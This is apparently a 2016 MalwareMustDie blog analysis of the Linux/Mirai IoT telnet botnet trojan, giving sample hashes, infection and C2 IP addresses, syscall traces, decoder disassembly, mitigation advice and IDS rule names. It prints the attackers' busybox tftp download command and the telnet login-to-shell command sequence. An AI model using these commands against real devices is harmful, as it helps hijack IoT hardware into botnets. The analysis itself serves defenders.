

Background
From August 4th 2016 several sysadmin friends were helping us by uploading this malware files to our dropbox. The samples of this particular ELF malware ware not easy to retrieve, there are good ones and also some broken ones, I listed in this post for the good ones only. This threat is made by a new ELF trojan backdoor which is now in on-going stage aiming IoT, the name of the binary is "mirai.*" and is having telnet attack as main functionality to other boxes.
As I see these samples as something new, it would be good to start to write analysis for the purpose to raise awareness of this threat widely, since the attacks are actively spotted in the wild on plenty of infected IoT networks. During the checks I discussed about the threat to the engineer friends in ETLabs,[links] who also detecting the same attack phenomena, and then having dialogue with our supporters who reported this threat directly too.
ELF Linux/Mirai is currently having a very low ELF/Linux antivirus detection ratio,
even in the architecture of x86. The detection in VT for the collected
multiplatform samples can be viewed in the several links below:
Linux/Mirai ITW samples: [link] [link] [link] [link] [link] [link] [link] [link] [link]
The reason for the lack of detection is because of the lack of samples, which are difficult to fetch from the infected IoT devices, routers, DVR or WebIP Camera, the Linux with Busybox binary in embedded platform, which what this threat is aiming.
The threat information
The binaries are collected from multiple direct/indirect sources:
mirai.arm: ELF 32-bit LSB executable, 'ARM', version , statically linked, stripped mirai.arm7: ELF 32-bit LSB executable, 'ARM, EABI4' version 1 (SYSV), statically linked, stripped mirai.mips: ELF 32-bit MSB executable, 'MIPS, MIPS-I' version 1 (SYSV), statically linked, stripped mirai.ppc: ELF 32-bit MSB executable, 'PowerPC or cisco 4500', ver 1 (SYSV), statically linked, stripped mirai.sh4: ELF 32-bit LSB executable, 'Renesas SH', version 1 (SYSV), statically linked, stripped mirai.sparc: ELF 32-bit MSB executable, 'SPARC', version 1 (SYSV), statically linked, stripped mirai.x86: ELF 32-bit LSB executable, 'Intel 80386', version 1 (SYSV), statically linked, stripped
I picked up the ELF binary in ARM architecture for my main reversing since the it was the first ELF appeared, Doing the cross reference with the MIPS, PPC and Sparc ELF ones for the details. In this case, I use plenty of usual tools, nothing fancy or special.
The hash of the Linux/Mirai initial binaries spotted:
MD5 ('mirai.arm') = b98bc6ab2ed13028cd5178c422ec8dda
MD5 ('mirai.arm7') = 33987c397cefc41ce5e269ad9543af4c
MD5 ('mirai.mips') = 8e36a1fb6f6f718ec0b621a639437d8b
MD5 ('mirai.ppc') = e08befb4d791e8b9218020292b2fecad
MD5 ('mirai.sh4') = 030159a814a533f30a3e17fe757586e6
MD5 ('mirai.sparc')= ac61ba163bffc0ec94944bb7b7bb1fcc
MD5 ('mirai.x86') = 6b7b6ee71c8338c030997d902a2fa593
Thank you to a friend who helped much.
These binaries were infected to the compromised Linux system's SSH or Telnet account (via default password flaw on specific IoT aimed). Upon the shell access gained, the attacker will download the payload of this malware to the Linux device by command traced like below:
'busybox tftp' -r [MalwareFile] -g [IPsource] 'busybox tftp' -g -l 'dvrHelper' -r [MalwareFile] [IPsource]The source of infection (by current download & connection trace)
5.206.225.96 | |49349 | 5.206.225.0/24 | DOTSI | PT | tuganet.pt | Dotsi Unipessoal Lda. 151.80.99.84 | ns395732.ip-151-80-99.eu. |16276 | 151.80.0.0/16 | OVH | FR | ovh.com | OVH SAS
Execution processes
In some cases of the Linux/Mirai infection is showing traces that the malware was executed without parameter and there are cases where the downloaded malware file(s) is deleted after execution. In this case mostly you won't get the samples unless you dump the malware process to the ELF binary. This explains it is hard to get the good working samples for this new threat.
During the execution, the malware will open the /etc/watchdog file in read-write state with the command:
open("/dev/watchdog", O_RDWR)
Notes: In some newer cases the coder is adding other path of watchdog like:
/dev/misc/watchdogMoving forward, and then Linux/Mirai will change the work directory to the root directory:
chdir("/")
It uses PF_INET socket it is opening UDP/53 port to access Google DNS
server in 8.8.8.8 and established a connection. Something like the below
reversed code (see the last section about skeleton reversing) is
showing the following commands was executed for this part:connect(3, {sa_family=AF_INET, sin_port=htons(53), sin_addr=inet_addr("8.8.8.8")}, 16)
The malware will detect the outbound interface and by re-using previous
used socket it opens a random TCP/port to the IP address. If the process
above succeed malware will close the socket afterward
getsockname(3, {sa_family=AF_INET, sin_port=htons(39221), sin_addr=inet_addr("YOUR-IP")}, [16])
close(3)
At this point the malware is performing several decoding for strings, which will be resulted in the targeted malware file name (below) and several random names.
0xbf96daa4 0000 0000 0000 0000 0000 0000 0000 .............. 0xbf96dab2 0000 2e2f 6476 7248 656c 7065 7200 ..'/dvrHelper'. 0xbf96dac0 0000 0000 0000 0000 0000 0000 0000 ..............The file will be the copy of the malware under /dev/.{Something}/dvrHelper with piping the stdout and stderr on execution made to /dev/null (for silent mode execution).
The /etc/watchdog execution is meant for making the delay, for the malware not to perform the bad function instantly to avoid the early detection, and it just sit there and make sure the malicious opened backdoor port is up and used. The mentioned {Something} is the keyword generated by the malware, in example path: /dev/.anime/drvHelper
Upon execution the malware will be self-deleted to avoid the trace, but the process is running. In some IoT that can be seen in lsof or the list to the /proc with specific PID, i.e.:
/proc/{PID}/exe -> '/dev/.{something}/dvrHelper' (deleted)
/proc/{PID}/exe -> './{long alphabet strings}' (deleted)
In this stage, the networking process continues, the malware is opening PF_INET socket for TCP, and bind it to the specific port (not random) TCP/48101 from localhost IP address 127.0.0.1 and then starting to listen to the incoming connection:
socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
bind(3, {sa_family=AF_INET, sin_port='htons(48101'), sin_addr=inet_addr("127.0.0.1")}, 16)
listen(3, 1)
By this stage the system-wide realtime clock will be queried (triggered by random) along with the retrieval set of PID, following by start forking, noted the following clocktest output and the stdout of "NULL\n"
clock_gettime(CLOCK_REALTIME, {1472261021, 649262704}.
getpid() // // see the reverse engineering part...
getppid()
clock_gettime(0x2 /* CLOCK_??? */, {0, 6215000})
prctl(PR_SET_NAME, 0xbef89752, 0xbef897b8, 0xbef897c8, 0)
write(1, NULL, 0)
write(1, "\n", 1)
fork()
Notes:
- forking always starts if infection possible. - The "NULL\n" is for the execution trace of the watchdog via execl(parse to environment in execve).Then this main process will exit here. and forked to new process PID (note: If you go this far means the malware can infect your system).
For some infection case the malware is self connected to its opened TCP/48101 & will continuously looping without making any forks, in this case you won't get infection:
connect(4, {sa_family=AF_INET, sin_port=htons(48101), sin_addr=inet_addr("0.0.0.0")}, 16}
List of files will show. it's showing the access port for the nodes.
IPv4 5629 0t0 TCP 127.0.0.1:'48101 (LISTEN)' IPv4 5670 0t0 TCP 127.0.0.1:60254->'127.0.0.1:48101 (ESTABLISHED)'
In the forked process, upon the attack command can be triggered, the infected device will perform connection on telnet services on other device for the abuse purpose:
socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
connect(6, {sa_family=AF_INET, sin_port=htons(23), sin_addr=inet_addr("x.x.x.x")}, 16)
sendto(7, "\377\374\1", 3, MSG_NOSIGNAL, NULL, 0)
sendto(7, "\377\374!", 3, MSG_NOSIGNAL, NULL, 0)
sendto(7, "\377\375\1", 3, MSG_NOSIGNAL, NULL, 0)
sendto(7, "\377\375\3", 3, MSG_NOSIGNAL, NULL, 0)
recvfrom(0, "E\0\0(\276~@\0001\6t\342\305\347\335\323\300\250\262\vo0\0\26\373\334\316\244\217\3425\214".
recvfrom(0, "E\0\0004>J@\0*\6\fbj\375(g\300\250\262\v\0\27\243\375P\351\2211m\4\322o"..
recvfrom(0, "E\0\0(\276\177@\0001\6t\341\305\347\335\323\300\250\262\vo0\0\26\373\334\316\244\217\3425\344"..
recvfrom(0, "E\0\0(\276\200@\0001\6t\340\305\347\335\323\300\250\262\vo0\0\26\373\334\316\244\217\3426,"..
recvfrom(0, "E\0\0,\0\0@\0.\6\216=I\213\2P\300\250\262\v\0\27\311gH\31\23\320I\213\2Q".
And doing the backdoor to connect via HTTP on 65.222.202.53.
connect(0, {sa_family=AF_INET, sin_port=htons(80), sin_addr=inet_addr("65.222.202.53")}, 16)
Mitigation method of Linux/Mirai infection
Picking a right ELF is important..
You'll find so little indicator and some encoded strings in the ARM binary. But there is no problem. First you should pick the clean ELF, it has the characteristic like the below:
ELF Header: Magic: 7f 45 4c 46 01 01 01 61 00 00 00 00 00 00 00 00 Class: ELF32 Data: 2's complement, little endian Version: 1 (current) OS/ABI: ARM ABI Version: 0 Type: EXEC (Executable file) Machine: ARM Program Headers: Type Offset VirtAddr PhysAddr FileSiz MemSiz Flg Align LOAD 0x000000 0x00008000 0x00008000 0x0dbb4 0x0dbb4 R E 0x8000 LOAD 0x00e004 0x0001e004 0x0001e004 0x001d4 0x05a84 RW 0x8000 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4 Section to Segment mapping: Segment Sections... 00 .init .text .fini .rodata 01 .ctors .dtors .data .bssThat's it for the available header & sections reading.
From each of Linux.Mirai ELF file clean state like above, it has significant strings that can be filtered by signatures:
/dev/watchdog 'LCOGQGPTGP' /proc/stat /proc/cpuinfo processor /sys/devices/system/cpu enter ogin assword /dev/nullIf you are in the Linux box, non DVR or busybox IoT type, secure the access to the below stated directory too..if came up from any unknown executables. It is also a good hazard to kill the chain of infection:
In rare occasion for infection of Linux/Mirai will connect you back to this MUD game site, blocking its IP is good for protection:
The site is showing the asciiart Mirai logo. Anybody's home??

Blocking the used TCP/48101 port if you don't use it, it's good to prevent infection & further damage:
mirai 29557 toor 3u IPv4 386807 0t0 "TCP 127.0.0.1:48101 (LISTEN)" mirai 29557 toor 4u IPv4 504795 0t0 "TCP 127.0.0.1:44424->127.0.0.1:48101 (ESTABLISHED)"
The other method is to secure your busybox execution to be run only on specific user. You'll need shell access for this operation, along with other hardening methods. The most important thing to prevent the infection is: if you have an IoT device, please make sure you have no telnet service open and running.
Botnet protocol used for infection via Telnet service
This explanation exists because of there are two good persons are supporting effort to crack it: Special thank's to Waldo Kitty & @node5.
What I am explaining here is the telnet scanner function that is used by attacker using the Linux/Mirai client version to get the installation of this malware in other node with accessible telnetd.
During the telnet session, Linux/Mirai attacker will communicate
with its target with specific protocol. Please see the illustration
below for getting the idea of what will be explained in the next
writing:
The Username and Passwords mentioned in the figure are used for
login bruting, and is hardcoded in the binary of Linux/Mirai, along with
the commands used for the gaining the shell.
The botnet will communicate to the remote access (assuming
server) who request the same strings sent, with the "report" in CNC
callback, with the specific keyword.
After gaining shell access, the malware sends the shell one-liner command to install malware with the format as below:
This command is also hardcoded. It explained why we can not find the
samples in the current infected systems since the malware file
downloaded will be deleted after the execution.
The possible sequence of the attack commands can be shown as below variations:
{Username}
{Passwords}
shell
enable
sh
/bin/busybox MIRAI
or, the combination below:
{Username}
{Passwords}
enable
system
shell
sh
bin/busybox MIRAI
The reversing snips for this infection protocol can be read in skeleton reversing section.
Reversing Linux/Mirai (stripped ARM) in binary (raw) way
The binary is reversible, but it's a bit "heavily stripped" and has
double function for decoders, so it is not that easy to read, but it's
fine. You'll see some important "artifacts" like these "case-switch"
they coded to perform attack:
If you trace it carefully all of origin for strings used in encoded binary can be read like this:
Decoder
// just to get the idea...what is cracked..
fn.0x0000f9e8(var3, (int)"\rRPMA\r\"", 7);
fn.0x0000f9e8(var4, (int)"\rGZG\"", 5);
fn.0x0000f9e8(var7, (int)"jvvrdnmmf\"", 10);
fn.0x0000f9e8(var8, (int)"nmnlmevdm\"", 10);
fn.0x0000f9e8(var10, (int)"XMNNCPF\"", 8);
fn.0x0000f9e8(var11, (int)"egvnmacnkr\"", 11);
fn.0x0000f9e8(var14, (int)"QJGNN\"", 6);
fn.0x0000f9e8(var15, (int)"GLC@NG\"", 7);
fn.0x0000f9e8(var16, (int)"Q[QVGO\"", 7);
:
fn.0x0000f9e8(var17, (int)"QJ\"", 3);
fn.0x0000f9e8(var20, (int)"LAMPPGAV\"", 9);
// One decoder in fn.0x0000f9e8
| 0x0000f9e8 000052e3 cmp r2, 0
| 0x0000f9ec 0ef0a001 moveq pc, lr
| 0x0000f9f0 00c0a0e3 mov ip, 0
| ; JMP XREF from 0x0000fa04 (fcn.0000f9e8)
| .-> 0x0000f9f4 0130d1e4 ldrb r3, [r1], 1
| | 0x0000f9f8 0030cce7 strb r3, [ip, r0]
| | 0x0000f9fc 01c08ce2 add ip, ip, 1
| | 0x0000fa00 02005ce1 cmp ip, r2
| `=< 0x0000fa04 faffff1a bne 0xf9f4
\ 0x0000fa08 0ef0a0e1 mov pc, lr
So the usual reversing method can be done to this ELF malware with using any of your flavor reversing tool that can support ELF reading in little endian. (Well, by know you all know what our chosen reversing tool is). I will not say much about this, since all of the previous posts are showing much of this method, but let me explain a new method with the details in the next section.
Reversing Linux/Mirai (stripped ARM) on "skeleton" tool
I've been working with my personal project called skeleton for some time, it was started since the ELF Workshop of MalwareMustDie started in here, Tokyo, Japan during AVTokyo conference last year. With the goal to be an open source project (currently still in private for some hiccups core development). The tool is having all practical necessity I need during analyzing a new unknown ELF malware, to save my time a lot to focus on the core of codes and source of the threat.
For the RCE itself, Skeleton can be used to form the ELF binary into as close as possible to the original state. If a known binary is analyzed by "skeleton", it's not interesting and that's not the point of this tool. Skeleton is showing its advantages when you push the unknown ELF into it, so this ARM binary is a good chance to test it :-).
Firstly, the simple explanation of "skeleton" concept can be seen in the figure below, a self-explanatory:
Skeleton concept is analyzing the all malware libraries you
collected (all vectors related information of one family of malware) in
the database, and is checking the new analyzed binary by firstly
checking calls made on the sample..just like when you trace a
syscalls..but with additional of the known function too are
stored in malcode dataset. For example, in this Linux/Mirai this is the
statistic of used syscall (this is only the example, using a very well
known command):
Then the tool is parsed by radare2 assembly dump of the malware, in the form like in the below picture's shown:
..and after some process (sorry that I can not say openly here),
receiving a not-bad reversing output in the C-like (NOT C++). The result
is not 100% looks like the original source code. Specially if you are
reversing this from ARM processor which many variable declaration will
be passed more steps through registers than Intel, but it will get you
into an idea of what kind of code that's actually responsible for this
badness. The code generated by this scheme is making a basic concept
code of what the actual source code is, why I called it as "skeleton".
PS: Radare is the best tool for RCE in this planet, me and MMD team are proud to use it for so long.
..And I was not surprised when I saw that ELF Linux/Mirai was actually showing many part of codes as similar as GayFgt/Torlus/Lizkebab or Bash0day/Bashdoor/BashLite.
Reference about GayFgt/Torlus/Lizkebab [link]
Below are screenshots of view of skeleton RCE tool results (after being beautified) by analyzing Linux/Mirai malware:
Putting all together in the main() :)
The case-switch used for abuse action (attack, etc) trigger,
looks like the coding style of Torlus/GayFgt re-coded version to me..
Obviously same style of coding too :-) Some strings are automatic
input by skeleton as suggestion since the system found the code
matched.
Another encoded strings blob and path to its decoder addresses:
Snips of "Skeleton" reversing on the malware's Telnet Scanning Protocol
This part can not be done well w/o cool help from WaldoKitty. Not every information will be published, it is posted in enough level to PoC the threat and its origin.
The telnet login command "grepped" by the Linux/Mirai from skeleton C code:

The password request of the telnet login grepped:
How the user & password is sent, one at the time..
Attempt to gain the shell...studied from several collected bins
How the injected code is formed and sent...in rough code.
This will be followed by the fetch malware command described in the telnet attack protocol section.
If you see the above telnet infection generated reversed codes of Linux/Mirai, except for the usage of encoded strings and some additional/modification in injected telnet commands, it is reminding us for the previous known malware threat that aimed telnet and IoT/routers created by the skiddos we posted before. They don't (or maybe just can't) do much modification for the telnet scanner part.
Despite similarity in the telnet infection, there are some interesting functions can be seen in the malware attack action that's not found in the previous threat, please take a rain check for those, for the current security reason.
About further information on the telnet scannning research from
the overall infected IoT device I can recommend you a very good report
on telnet honeypot written by Mr. Bedich Koata in CZ.NIC [link]
Notes for skeleton reversed code:
The thing about reverse engineering is, you always can sense same
stuff coded from someone or from the threat you follow. The generated
code is not 100% same as the original source used, but it is enough to
give is idea about how it works in more details and how it was coded. In
this reversing I am using the one several ARM samples
in 32bit as main reference, which is influencing the distortion in code
generated (to be more using more variables and registers than Intel). I
will brush-up these codes in my spare time.
The conclusion
Open rules: 2023016 - ET TELNET SUSPICIOUS Path to BusyBox 2023017 - ET TELNET SUSPICIOUS busybox shell 2023018 - ET TELNET SUSPICIOUS busybox enable 2023019 - ET TELNET busybox MIRAI hackers - Possible Brute Force Attack

Thank you and epilogue
To all of the good sysadmin friends who uploaded us the samples. To engineer friends in ET Labs for the nice discussion about the threat. To security ring in MMD and my country who support to our ELF research. To the friends who contacted us directly and doing the very best cooperation to share and explain the threat..even-though it was hard to fetch some binaries from the memory but you all did it, we thank you for the hard work and support to make this analysis is possible.
I will continue the development of the "skeleton" tool to be more presentable and used by good people who want to dissect the unknown binary by this method. At the moment I will try to sync the skeleton development plan to be presented in public for the near future. Please contact @unixfreaxjp for the development matters.
The moral of the story of this threat ; this is the example, on how a group of bad hackers can improve themselves.. if we let them still be freely doing their vandalism act out there. They keep on improving their threat and they have no care to aim anything that can be infected to expand their "botnets". Don't let the young age reducing our priority to stop the actors in the legal way, juveniles scheme in our culture are there for them to taste the consequences of what they do in the real life., let them taste it. If we don't stop them now..think about what they can do for 5 or 10 years from now to our internet.
To have Linux boxes in IoT to support our present life aspects is a bless in our technology era. But please be parallel to serve those boxes with more presentable security settings and don't let the authentication security for those running 365/24/7 OS becomes obsolete. Apply some securing method to secure it better too in user land UI i.e.: to force users to change the factory setting passwords BEFORE using them, or not to let telnetd runs openly by default, ask the users not to serve SSH in the default ports of possible, and these are really helping to reduce this threat hitting networks that is having much IoT running. Feel free to contact us in @malwaremustdie (twitter/direct message), or by comments to this post if you have an infection for this malware and look for advisory to dissect it, or to dump the sample from your busybox/IoT.
Thank you very much for the internet media awareness
We, MMD thank our good friends in internet media for your fast awareness of this threat:
1. Security Affairs (interview report) [link]
2. Security Week [link]
3. Softpedia [link]
4. Open Source Forum .RU [link]
5. Bug Online .HR [link]
6. Muy Seguridad .ES [link]
7. IPSInfo. RU [link]
8. Articulos relacionados con el mundo de la tecnologia .ES [link]
9. _ .CN [link]
10. Info Security Magazine .NL [link]
11. HelpNet Security [link]
12. Best Security Search [link]
13. | .CN [link]
14. IT Vesti (Bosnian) [link]
15. Heise Security .DE [link]
16. Slashdot.org [link]
..and others who are not mentioned yet (I am sorry!)
Stay safe folks!
#MalwareMustDie!
Reversed, analyzed and written by @unixfreaxjp [link], August 31st 2016.
No comments:
Post a Comment